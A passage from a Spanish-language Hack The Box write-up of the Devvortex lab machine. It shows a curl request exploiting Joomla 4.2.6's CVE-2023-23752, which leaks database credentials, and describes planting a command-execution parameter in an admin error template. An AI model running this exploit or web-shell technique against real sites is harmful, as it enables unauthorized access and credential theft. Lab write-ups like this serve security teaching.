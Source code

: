 Mirando en `http://dev.devvortex.htb/administrator/manifests/files/joomla.xml` podemos encontrar que este sitio utiliza la versión 4.2.6

Buscando en San Google encontramos que esta versión es vulnerable `CVE-2023-23752` y citando directamente encontramos que:

> "As discussed, CVE-2023-23752 is an authentication bypass resulting in an information leak. Most of the public exploits use the bypass to leak the system's configuration, which contains the Joomla! MySQL database credentials in plaintext."


Vamos a probar:

::CodeMockup
curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true | jq
<pre>
    [...]
     {
      "type": "application",
      "id": "224",
      "attributes": {
        "user": <strong>"lewis"</strong>,
        "id": 224
      }                                                        
    },                                                       
    {                                
      "type": "application",                                    
      "id": "224",                                   
      "attributes": {     
        "password": <strong>"P4ntherg0t1n5r3c0n##"</strong>,
        "id": 224                                                  
      }                                                        
    },
</pre>
::

Fácil y para toda la familia. ¡Ya tenemos user+password de la base de datos y de "casualidad" para entrar en el Joomla! como admins.
Es lo que tiene reciclar passwords, supongo.


## Explotación

En hacerlo vemos que tenemos permisos de Administrador... lo cual podemos manipular las templates del mismo. Editamos la plantilla de error para inyectar comandos vía url.


::image{src="/blog/10-htb-hacking-devvortex/Selection_006.png"}
::



En modificar la template de error, solo tenemos de visitar cualquier url del site que no exista + añadir parámetro 'cmd' en la URL. Por ejemplo así:

::image{src="/blog/10-htb-hacking-devvortex/Selection_007.png"}
::
